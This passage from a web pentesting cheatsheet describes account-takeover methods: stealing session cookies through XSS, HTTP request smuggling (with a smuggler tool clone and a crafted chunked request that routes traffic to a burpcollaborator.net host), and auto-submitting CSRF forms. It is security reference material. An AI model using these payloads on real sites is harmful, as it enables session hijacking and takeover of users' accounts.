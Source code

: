 [Unicode pentester cheatsheet](https://gosecure.github.io/unicode-pentester-cheatsheet/) can be used to find list of suitable unicode characters based on platform.

## Account Takeover Via Cross Site Scripting

1.  Find an XSS inside the application or a subdomain if the cookies are scoped to the parent domain : `*.domain.com`
2.  Leak the current **sessions cookie**
3.  Authenticate as the user using the cookie

## Account Takeover Via HTTP Request Smuggling

Refer to **HTTP Request Smuggling** vulnerability page.

1.  Use **smuggler** to detect the type of HTTP Request Smuggling (CL, TE, CL.TE)
    
    ```powershell
    git clone https://github.com/defparam/smuggler.git
    cd smuggler
    python3 smuggler.py -h
    ```
    
2.  Craft a request which will overwrite the `POST / HTTP/1.1` with the following data:
    
    ```powershell
    GET http://something.burpcollaborator.net  HTTP/1.1
    X: 
    ```
    
3.  Final request could look like the following
    
    ```powershell
    GET /  HTTP/1.1
    Transfer-Encoding: chunked
    Host: something.com
    User-Agent: Smuggler/v1.0
    Content-Length: 83
    
    0
    
    GET http://something.burpcollaborator.net  HTTP/1.1
    X: X
    ```
    

Hackerone reports exploiting this bug

- https://hackerone.com/reports/737140
- https://hackerone.com/reports/771666

## Account Takeover via CSRF

1.  Create a payload for the CSRF, e.g: "HTML form with auto submit for a password change"
2.  Send the payload

## Account Takeover via JWT
